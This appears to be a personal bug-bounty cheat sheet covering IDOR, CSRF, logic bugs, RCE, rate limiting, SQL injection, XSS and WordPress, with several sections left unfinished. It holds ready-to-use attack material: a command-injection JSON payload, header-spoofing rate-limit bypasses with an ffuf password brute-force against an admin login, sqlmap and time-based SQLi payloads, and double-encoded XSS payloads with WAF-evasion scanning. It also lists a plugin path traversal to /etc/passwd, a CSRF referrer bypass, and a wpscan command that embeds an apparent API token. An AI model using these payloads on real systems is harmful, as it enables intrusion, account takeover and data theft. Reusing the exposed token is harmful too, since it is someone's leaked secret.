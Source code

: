 <details>
	<summary>IDOR</summary>
	
    1- Look for id everywhere
    
    2- Play with hash/encoded values
    
    3- Change The ID's in the request 
    
    4- Upload the profile photo for another user
    
    5- Try change/View data of another user
    
    6- Do something with your email then change it in Burp

    7- Add parameter IDs to requests that don’t have them 

    8- Try replacing parameter names

    9- Try changing the requested file type 
    	GET /user_data/2341 --> 401 Unauthorized
	GET /user_data/2341.json --> 200 OK
    
    10- Try using an array {“id”:19} → {“id”:[19]}

    11- Wildcard ID /api/users/*

    12- check for session cookies if has httponly flag

    13- use the inspector of Burp Repeater to play with id's

    14- use https://jwt.io

    15- create two accounts and save both jwt data and try change between them

    16- detect each cookie and see where it being used

    17- Gather POST & GET and test every CRUD

    18- 

 
  
</details>

-----------------------------------------------------------------------------

<details>
	<summary>Broken Access Control</summary>

	1- Test some Graphql operations with different user roles and see what this operation do
 	2- Check the role of every user and try upgrade your role by urself
  	3- try any unauth behavior like :
   		- member delete admin
     		- member send invites using the invite request
       		- member outside the comapny try any action 
	 	- 
 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>CSRF</summary>

	Generate POC using LazyCSRF in BurpSuite
	=================================================
	FIRST SCENARIO: 
  	1- Login as Attacker and intercept any function like change email, pass, logout...etc
   	2- Genereate CSRF poc with that reqeust
    	3- login as Victim in another browser
     	4- open the CSRF poc in victim browser if did the function then it's a bug
  	
   	=================================================
	SECOND SCENARIO: The Token is tied to non-session cookie
 		if the token tied to an attribute in the request 
 	1- intercept the request of user1 change email,username..etc
  	2- Genrate POC 
   	3- get the CSRF key and attribute value of user2
    	4- 

    	=================================================
   	- Remove the token and leave the parameter empty
  	- Try use another user CSRF token
   	- Change the request method to get and remove the token
    	- Add Ayhaga to the real CSRF token 
     	- Dynamic chars in CSRF token manipulate
	- try delete referrer
 	- Referrer: https://target.com/https://evil.com
  	

 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>Logic Bugs</summary>
	
    1- Try change the price or quantity of item
    
    2- Multiple booking for one room
    
    3- Place order without verify stock level
    
    4- Use coupons or bounus more than one time
    
    5- Check the difference bettween Front-end & Burp request
    
    6- Try creating more than one from the same block 

    7- Check for all posible IF statements and try to bypass it

    8- A user gains access to restricted features they shouldn't have access to.

    9- Try access files after deletion using the link of this file 

    10- Make changes in the source code disabled -> enabled / hidden -> flex

    11- Delete comment with report https://shahjerry33.medium.com/business-logic-errors-a-new-look-3b18d9c2a12f

    12- 
      
		
</details>

-----------------------------------------------------------------------------

<details>
	<summary>RCE</summary>

	1- Injection in json file 
 		{
   		   "username":" `touch ayfile.txt` ",
		   "password":"test"
		}
  	We establish a connection using ntcat then inject command in the json to get this connection
     --------------------------------------------------------------------------------------------------
     2- 

     
</details>

-----------------------------------------------------------------------------

<details>
	<summary>Race Condition</summary>

    1- 
 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>Rate Limit</summary>

 	rate limit 
	1- no rate limit on login page 
	2- no rate limit on internal password
	3- no rate limit on sending reset password link 
	4- no rate limit on OTP or 2FA => account takeover
	5- no rate limit on contact us page 
	6- no rate limit on comments 
	7- no rate limit on reports of comments
	8- no rate limit on port 22
 	9- no rate limit on create users account lead to massive accounts created
	
	------------
	bypass rate limit by adding headers 
	X-Forwarded-For: 127.0.0.1
	X-Forwarded-Host: 127.0.0.1
	X-Origination-IP: 127.0.0.1 or 0.0.0.0
	X-Fowarded-For: 127.0.0.1
	X-Remote-IP: 127.0.0.1
	X-Remote-Addr: 127.0.0.1
	------------------------------------------
	POST /login.php HTTP/1.1
	Host: target.com
	X-Forwarded-For: 127.0.0.1
	X-Forwarded-Host: 127.0.0.1
	X-Origination-IP: 127.0.0.1 or 0.0.0.0
	X-Fowarded-For: 127.0.0.1
	X-Remote-IP: 127.0.0.1
	X-Remote-Addr: 127.0.0.1
	
	username=admin&password=$fuzz$
	-------------------------------------------
	429 => 403 
	bypass rate limit 
	
	ffuf -u https://example.com -w wordlist.txt --data "username=admin&password=FUZZ"  -H "X-Forwarded-For: 127.0.0.1" -H "X-Forwarded-For: 127.0.0.1"`
	
	403 


</details>

-----------------------------------------------------------------------------


<details>
## <summary>check sql injection in php</summary>
    
    1- first let's gather parameters 
    # arjun -i php.txt | tee -a parameters.txt
    2- after knowing parameters like id then full url would be 
    https://example.com/file.php?id=*
    3- use sqlmap 
    # sqlmap -u "~~https://example.com/file.php?id=*~~" --dbs --banner --batch --random-agent
    
 </details>   


-----------------------------------------------------------------------------


    
<details>
## <summary>SQLI</summary>

    id = 1'XOR(if(now()=sysdate(),sleep(2*2),0))OR'

	username:’ — ‘/” — “
	password:’ — ‘/” — “
</details>


-----------------------------------------------------------------------------

<details>
	<summary>XSS</summary>

 
	
	dalfox url "https://target.com/?q=search" -o dalfox_xss.txt
	dalfox file allParam.txt --waf-evasion --user-agent 'Mozilla/5.0 (x11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 			Safari/537.36' --proxy 'http://127.0.0.1:8080' --timeout 30 -b 'payload from xss.report' -o xssProbability.txt --deep-domxss 

	
	echo "domain.com" | gau | kxss | grep ">"
	
	paramspider --domain domain.com
	paramspider --domain https://www.domain.com --exclude woff,css,png,svg,jpg --output t.txt
	
	echo "sub.domain.com" | waybackurls | httpx -silent | Gxss -c 100 -p Xss | sort -u | dalfox pipe
	
	
	cat domain.txt | kxss | grep "\" ' < >" | tee kxss.txt
	
	cat domain.txt | kxss


	Double Decode :
 		%2527%2520onmouseover%253D%2527alert%25281%2529%2527%2520
   		%2527%2520onfocus%253D%2527alert%25281%2529%2527%2520autofocus%253D%2527
     		%2527%2520onfocus%253D%2527alert%25281%2529%2527%2520
       		%2527%253E%253Cscript%253Ealert%25281%2529%253C%252Fscript%253E
   		
    
</details>



------------------------------------------------------------------------------------------------------

<details>
## <summary>hacking WordPress</summary>
    
    
    wpscan --url [https://target.com](https://target.com/) --disable-tls-checks --api-token zBsi404GGCMKGzTraiEsSsQsFXCsUVWmaDUsn3EPuKc -e at -e ap -e u --enumerate ap --plugins-detection aggressive --force
    wordpress usernames exposure :
    /wp-json/wp/v2/users
    /author-sitemap.xml
    /wp-content/debug.log
    /wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
    	
    /wp-login.php?action=register
    /wp-json/?rest_route=/wp/v2/users/
    /wp-json/?rest_route=/wp/v2/users/n

</details>

-----------------------------------------------------------------------------



<details>
	<summary>PHP</summary>
</details>



-----------------------------------------------------------------------------





-----------------------------------------------------------------------------

